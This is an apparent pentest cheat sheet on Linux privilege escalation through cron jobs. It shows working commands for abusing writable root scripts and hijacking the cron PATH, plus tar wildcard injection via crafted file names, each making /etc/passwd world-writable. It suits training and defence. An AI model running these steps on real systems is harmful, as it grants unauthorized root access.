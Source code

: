 ## Find crontabs as normal user  
<br>

If the crontab is configured in `/etc/crontab` then everyone can read the file:

```bash
cat /etc/crontab

# Other cron files:
-rw-------   1 root root    541 Aug  8  2019 anacrontab
drwxrwxrwx.  2 root root     51 Mar 19  2020 cron.d
drwxrwxrwx.  2 root root     54 Mar 19  2020 cron.daily
-rw-------   1 root root      0 Aug  8  2019 cron.deny
drwxrwxrwx.  2 root root     21 Mar 19  2020 cron.hourly
drwxrwxrwx.  2 root root      6 Jun  9  2014 cron.monthly
-rw-r--r--   1 root root    771 Mar 18  2020 crontab
drwxrwxrwx.  2 root root      6 Jun  9  2014 cron.weekly
```
<br>

If the cronjob is scheduled by using `crontab -e` command:

```bash
# Check crontabs
crontab -l

# Check other user crontabs
crontab -l -u <username>

ls -lha /var/spool/cron/
cat /var/spool/cron/*

#log files :
#ubuntu & debian:
grep CRON /var/log/syslog
tail -f /var/log/syslog | grep CRON

#centos & redhat
tail /var/log/cron
tail -f /var/log/cron

```
<br>

---

## Using pspy for finding cronjobs

**pspy - unprivileged Linux process snooping**

https://github.com/DominicBreuker/pspy

Download the pspy binary according to the architecture of target and transfer it to the target. If the target has internet connection, use wget to directly download the file.

```bash
# Give it executable permission
chmod +x pspy*
./pspy64
```

When the cronjob runs, by matching the timestamp we can find out which command/file is being executed by crontab.

<br>

---

### Writable Script Exploitation

If a cron job runs a script as root, but you have write permissions, you can modify the script to execute a command as root.

Find writable cron jobs:

```bash
cat /etc/crontab

crontab -l

find /etc/cron* /var/spool/cron* -type f -writable 2>/dev/null
```

Example vulnerable cron job (`/etc/crontab`):

```bash
* * * * * root /usr/local/bin/writable.sh
```

Replace it's content :

```bash
echo 'chmod 777 /etc/passwd' > /usr/local/bin/writable.sh
```

If the cronjob command is a `.py` file, add these lines:

```bash
import os
cmd = 'chmod 777 /etc/passwd'
os.system(cmd)
```

Now when the crontab execution time comes, the permission on `/etc/passwd` will change.

---

## Abusing cron Path / Path Hijacking

In the cron configuration file `/etc/crontab`, the `PATH` variable is initialized. If misconfigured, we can set malicious binaries to the misconfigured priority `PATH` with the same name of script/command used in the cronjob definition.

Find the path in crontab file:

```bash
cat /etc/crontab

SHELL=/bin/bash
PATH=/home/armour/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12)
# |  |  |  |  .---- day of week (0 - 6)
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
  *  *  *  *  * root ifconfig
```

If the path directory does not exist, create one.

Exploit:

```bash
mkdir /home/armour/bin
echo 'chmod 777 /etc/passwd' > /home/armour/bin/ifconfig
chmod +x /home/armour/bin/ifconfig
```

When triggered, it will change the permissions of `/etc/passwd`.
<br>

---

### Wildcard Injection (* Expansion)

If a cron job runs with a wildcard (`*`), it can be exploited. Example:

```bash
* * * * * root tar -czf /tmp/backup.tar.gz /home/user/*
```

This cronjob uses `tar` command to take backup of user’s home directory using the wildcard (`*`).

Exploit :

Create a `backup.sh` file:

```bash
cd
echo 'chmod 777 /etc/passwd' > backup.sh
```

Create first switch:

```bash
echo "" > "--checkpoint-action=exec=sh backup.sh"
```

Create second switch:

```bash
echo "" > --checkpoint=1
```

Now when the cronjob runs, it will change the permissions of `/etc/passwd`.

